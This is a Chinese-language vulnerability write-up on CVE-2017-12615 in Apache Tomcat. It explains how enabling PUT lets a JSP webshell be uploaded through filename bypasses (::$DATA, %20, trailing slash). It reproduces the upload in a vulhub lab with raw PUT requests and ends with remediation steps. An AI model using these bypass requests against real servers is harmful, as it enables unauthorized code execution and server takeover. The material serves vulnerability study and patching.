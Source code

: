 #### CVE-2017-12615

##### 漏洞描述

远程代码执行漏洞(CVE-2017-12615)。当存在漏洞的Tomcat 运行在 Windows 主机上，且启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 的webshell文件，JSP文件中的恶意代码将能被服务器执行，导致服务器上的数据泄露或获取服务器权限。

##### 影响范围

Apache Tomcat 7.0.0 – 7.0.79

##### 漏洞原理

启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false）,可任意上传恶意文件至服务器端

默认`readonly`为`true`，也就是无法进行PUT、DELETE行为

````
conf/web.xml		//文件内容
````

![image-20200813095843352](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813095843352.png)

这个CVE漏洞涉及到 DefaultServlet，DefaultServlet作用是处理静态文件，同时DefaultServlet可以处理PUT或DELETE请求，默认配置如图2：

![image-20200813100218371](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813100218371.png)

可以看出即使设置readonly为false,默认tomcat也不允许PUT上传jsp和jspx文件，因为后端都用org.apache.catalina.servlets.JspServlet来处理jsp或是jspx后缀的请求，而JspServlet负责处理所有JSP和JPSX类型的动态请求，从代码没有发现处理HTTP PUT类型的操作, 所以可知PUT以及DELTE等HTTP操作由DefautServelt实现。因此，就算我们构造请求直接上传JSP webshell显然是不会成功的。该漏洞实际上是利用了windows下文件名解析的漏洞来触发的。根本是通过构造特殊后缀名，绕过Tomcat检测，让Tomcat用DefaultServlet的逻辑处理请求，从而上传jsp webshell文件。

绕过方式：

Windows：
1、利用/shell.jsp::$DATA的方式绕过
2、/shell.jsp%20，空格绕过
3、/shell.jsp/ ， Tomcat在处理文件时会删除最后的/
Linux：
1、/shell.jsp/ ， Tomcat在处理文件时会删除最后的/

##### 漏洞条件

`readonly`设置为`false`时会导致攻击者上传任意恶意文件。

##### 漏洞检测

漏洞环境使用[P牛docker](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615)镜像验证。

Tomcat version: 8.5.19

将readonly参数设置为false时，即可通过PUT方式创建一个JSP文件，并可以执行任意代码。修改部分如下。

1、readonly默认值为true，手动将其改为false，在`conf/web.xml`中手动添加红色方框类内容。

添加如下：

```xml
				<init-param> 
            <param-name>readonly</param-name> 
            <param-value>false</param-value> 
        </init-param>
```

![image-20200813100605923](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813100605923.png)

2、修改请求头并传递post数据

```
PUT /shell.jsp HTTP/1.1
Host: 192.168.3.49:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

shell
```

![image-20200813131648712](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813131648712.png)

由上图看到提示404，说明JspServlet负责处理所有JSP和JPSX类型的动态请求，不能够处理PUT方法类型的请求。会被过滤掉。

此时可以利用上面介绍的绕过方式

利用文件解析漏洞采用PUT方式上传jsp webshell文件。其中文件名设为/shell.jsp/。（如果文件名后缀是空格那么将会被tomcat给过滤掉。）

```
PUT /shell.jsp/ HTTP/1.1
Host: 192.168.3.49:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

shell
```

下图所示修改shell.jsp/即可上传成功

![image-20200813131744168](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813131744168.png)

文件访问

![image-20200813133423171](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813133423171.png)

shell管理

![image-20200813134428832](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813134428832.png)

##### 漏洞修复

1、删除web.xml文件中readonly属性的值为true或直接删除

2、更新至官方最新

